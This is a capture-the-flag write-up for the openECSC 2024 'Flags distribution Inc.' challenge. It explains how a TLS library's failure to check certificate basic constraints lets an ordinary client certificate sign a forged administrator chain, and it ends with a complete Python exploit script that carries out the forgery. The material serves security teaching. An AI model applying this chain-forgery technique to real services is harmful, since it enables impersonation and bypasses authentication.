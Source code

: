 # openECSC 2024 - Round 1

## [misc] Flags distribution Inc. (17 solves)

Finally Flags distribution Inc. made a false step! They accidentally exposed their client certificate signing endpoint to the internet... It doesn't seem to be able to sign admin certificates though...

This is a remote challenge, you can connect with:

`openssl s_client -connect flagsdistribution.challs.open.ecsc2024.it:38000`

`nc flagsdistribution.challs.open.ecsc2024.it 38001`

Author: Alberto Carboneri <@Alberto247>

## Overview

In this challenge we are given an application which makes use of [TLSe](https://github.com/eduardsui/tlse), a single-file TLS implementation written in C.
The challenge consists of a simple C program making use of such library to expose a service wrapped with TLS.
It makes use of client certificates to authenticate the connecting users, providing the flag only to the user `FlagsDistributionAdministrator`, if its certificate has been issued by `Flags distribution Inc.`.

Another endpoint, available as a separate service, provides user certificates for any user, except `FlagsDistributionAdministrator`.

A custom root certificate is used in the whole challenge as a root of trust for every certificate chain.

The challenge patches TLSe during build. However, as noted in the Dockerfile, this patch is a bug fix for tlse and is not intended to introduce any vulnerability.

## Certificate chains and certificate basic constraints

In the wild, using the root certificate to sign every other certificate would be both cumbersome and a security issue, so certificate chains are commonly used. A certificate can be signed by the root certificate, and that certificate can be then used to sign other certificates. During the verification the whole certificate chain is verified, and if it leads to a trusted root certificate it is considered valid. This allows for a tree of certificates to be generated, all leading to a common root.

However, not all certificates should be used for every scope and there should be a way to limit the capabilities of a specific certificate, otherwhise signing any certificate would be almost equivalent to giving away your root certificate (apart from the possibility of certificate revocation of course). To achieve that, the basic constraints section was introduced, describing the scope of the current certificate. For example, the field `CA` specifies whether the certificate is supposed to be used to sign other certificates and be in any place other than the end of the signature chain. This is generally set to `false` in client certificates, as those are meant to be used for authentication, and not as a CA.

## The bug

While the basic constraints section of a certificate limits its scopes, nothing prevents their use outside of those limits. It is up to the chain verification code to limit their use and reject invalid chains.
The challenge doesn't properly check this section and this poses a security risk. In fact an attacker can use a client certificate as a certification authority and use it to sign other certificates.
The intended solution for the challenge was to request a certificate from the signing endpoint and use that to sign other certificates. Since the server was also verifying the issuer, the solution requires using the provided certificate to sign a new certificate having the correct issuer, and then use that certificate to sign a final certificate having the correct user.
Finally, one should package all three certificates into a chain, and provide such chain to the server.
This challenge was heavily inspired by a bug present in the TLS library of the Nintendo DS. You can find more information [here](https://github.com/KaeruTeam/nds-constraint).

## Openssl interface

Many players had trouble using the openssl client to communicate with the remote server.
Unfortunately, this client appears to have a not-so-clear error handling, providing confusing or wrong information on the reason of the failure.
The proper way to solve this challenge using such client was to:

1. Use the IP instead of the domain when connecting to the remote server, as using the domain causes error when validating the server certificate
2. Configure the client to use tls1.2 as tls1.3 is not supported by the server. This is achieved by pasing the "-tls1_2" parameter
3. Split the obtained chain to have a single certificate, called `fakeadmin_cert.pem` in this example, containing the outer certificate, and a file, called `chain.pem` in this example, containing the two certificates composing the rest of the chain
4. Connect to the server using the following command line `openssl s_client -cert fakeadmin_cert.pem -key key.pem -cert_chain chain.pem -connect 128.140.101.143:38000 -tls1_2`

Another, simpler solution, was to use pwntools, providing the correct ssl context. This is shown in the exploit below.

## Exploit

```python
#!/usr/bin/env python3

import ssl
import subprocess as sp

from pwn import *

logging.disable()

HOST = "flagsdistribution.challs.open.ecsc2024.it"
PORT = 38000

username = "".join([random.choice(string.ascii_letters) for _ in range(16)])

with remote(HOST, PORT + 1) as r:
    r.recvuntil(b"name: ")
    r.sendline(username.encode())
    r.recvuntil(b"Here is your certificate:")
    certificate = r.recvuntil(b"-----END CERTIFICATE-----").decode().strip()
    r.recvuntil(b"Here is your certificate key:")
    key = r.recvuntil(b"-----END PRIVATE KEY-----").decode().strip()

user_cert = tempfile.mktemp()
with open(user_cert, "w") as f:
    f.write(certificate)

user_cert_key = tempfile.mktemp()
with open(user_cert_key, "w") as f:
    f.write(key)

fakeadmin_key = tempfile.mktemp()
fakeadmin_csr = tempfile.mktemp()
fakeadmin_pem = tempfile.mktemp()

sp.check_call(["openssl", "genrsa", "-out", fakeadmin_key, "2048"], stdout=sp.PIPE)

sp.check_call(["openssl", "req", "-new", "-out", fakeadmin_csr, "-key", fakeadmin_key, "-subj",
               f"/C=IT/CN=FlagsDistributionAdministrator/O=Flags distribution Inc."], stdout=sp.PIPE)

sp.check_call(
    ["openssl", "x509", "-req", "-in", fakeadmin_csr, "-CA", user_cert, "-CAkey", user_cert_key, "-out", fakeadmin_pem,
     "-CAcreateserial", "-days", "365", "-sha256"], stdout=sp.PIPE)

fakeadmin_outer_key = tempfile.mktemp()
fakeadmin_outer_csr = tempfile.mktemp()
fakeadmin_outer_pem = tempfile.mktemp()

sp.check_call(["openssl", "genrsa", "-out", fakeadmin_outer_key, "2048"], stdout=sp.PIPE)

sp.check_call(["openssl", "req", "-new", "-out", fakeadmin_outer_csr, "-key", fakeadmin_outer_key, "-subj",
               f"/C=IT/CN=FlagsDistributionAdministrator/O=Flags distribution Inc."], stdout=sp.PIPE)

sp.check_call(
    ["openssl", "x509", "-req", "-in", fakeadmin_outer_csr, "-CA", fakeadmin_pem, "-CAkey", fakeadmin_key, "-out",
     fakeadmin_outer_pem, "-CAcreateserial", "-days", "365", "-sha256"], stdout=sp.PIPE)

fakeadmin_chain = tempfile.mktemp()
os.system(f"cat {fakeadmin_outer_pem} {fakeadmin_pem} {user_cert} > {fakeadmin_chain}")

context = ssl.SSLContext(ssl.PROTOCOL_TLSv1_2)
context.load_cert_chain(fakeadmin_chain, fakeadmin_outer_key)

with remote(socket.gethostbyname(HOST), PORT, ssl=True, ssl_context=context) as r:
    flag = r.recvline().decode().split("system is ")[-1].strip()
    print(flag)
```
